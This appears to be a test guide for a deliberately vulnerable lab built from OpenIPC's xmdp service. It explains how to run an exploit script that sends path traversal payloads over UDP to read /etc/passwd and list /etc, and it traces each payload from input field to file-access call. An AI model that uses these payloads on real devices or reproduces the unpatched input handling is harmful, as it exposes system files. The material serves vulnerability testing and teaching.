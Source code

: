 # CWE-22 Test Guide

This guide explains how to build, run and test the CWE-22 (Path Traversal) vulnerability in the xmdp project.

## Prerequisites

- Docker installed
- Git installed
- Basic knowledge of Linux commands

## Building and Running

1. Build the Docker image:
```bash
docker build -t openipc-firmware .
```

2. Run the container:
```bash
docker run -it --name openipc-test openipc-firmware
```

## Testing CWE-22

The test will be performed in two terminals:

### Terminal 1 (xmdp)
1. Inside the container, navigate to the xmdp directory:
```bash
cd /root/xmdp/general/package/xmdp/src
```

2. Run xmdp:
```bash
./xmdp
```

### Terminal 2 (exploit)
1. Open a new terminal
2. Enter the container:
```bash
docker exec -it openipc-test bash
```

3. Navigate to the exploit directory:
```bash
cd /root/xmdp/general/package/xmdp/src
```

4. Run the exploit:
```bash
# Example 1: Read /etc/passwd
python3 exploit_cwe22.py 127.0.0.1 34569 '//..//..//..//etc//passwd'

# Example 2: List /etc directory
python3 exploit_cwe22.py 127.0.0.1 34569 '//..//..//..//etc'
```

## Expected Results

When running the exploit, you should see:

1. In Terminal 1 (xmdp):
   - The payload being received
   - For Example 1: Contents of /etc/passwd being read
   - For Example 2: Directory listing of /etc

2. In Terminal 2 (exploit):
   - The exploit script should complete without waiting for response

## Understanding the Vulnerabilities

The project demonstrates two path traversal vulnerabilities:

### Example 1: File Reading
- SOURCE: User input from `UserName` field
- Transformations:
  1. Normalize slashes (//..//..//..//etc//passwd -> /etc/passwd)
- SINK: `fopen()` to read file contents

### Example 2: Directory Listing
- SOURCE: User input from `PassWord` field
- Transformations:
  1. Normalize slashes (//..//..//..//etc -> /etc)
  2. Convert to absolute path (ensures path starts with /)
- SINK: `scandir()` to list directory contents

## Troubleshooting

If you encounter issues:

1. Make sure xmdp is running in the first terminal
2. Verify the container is running: `docker ps`
3. Check if the ports are accessible: `netstat -tulpn | grep 34569`
4. Ensure you have proper permissions in the container

## Notes

- The exploit demonstrates two path traversal vulnerabilities:
  1. File reading through `UserName`
  2. Directory listing through `PassWord`
- The payload is sent via UDP broadcast
- No response is expected from the exploit script
- The vulnerabilities are intentionally left unpatched for testing purposes
- Both examples use realistic transformations that don't prevent path traversal 